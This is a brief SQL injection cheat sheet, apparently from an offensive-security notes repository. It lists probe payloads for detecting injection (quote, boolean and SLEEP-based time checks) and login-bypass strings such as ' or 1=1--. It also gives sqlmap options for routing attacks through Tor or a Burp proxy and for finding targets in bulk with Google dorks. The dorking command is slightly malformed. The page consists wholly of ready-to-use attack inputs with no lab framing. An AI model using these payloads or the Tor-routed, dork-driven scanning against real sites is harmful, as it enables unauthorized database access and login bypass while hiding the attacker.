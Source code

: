 # SQL injection
		Detecting SQL injection vulnerabilities
- Single quote '	`https://site/news.php?id=5'`
- Boolean conditions `https://site/news.php?id=5 OR 1=1`
- Timed base `https://site/news.php?id=5 or SLEEP(25)`

<!-- -->

		Bypassing Login Screens
- `admin' --`
- `admin' #`
-   `' or 1=1--`
- `' or 1=1/*`
- `') or ('1'='1--`

<!-- -->

			Sqlmap
### Through Tor
`--tor-type=SOCKS5`

### Through Burpsuite
`--proxy="http://127.0.0.1:8080/"`

### Use google Dorking
`sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n`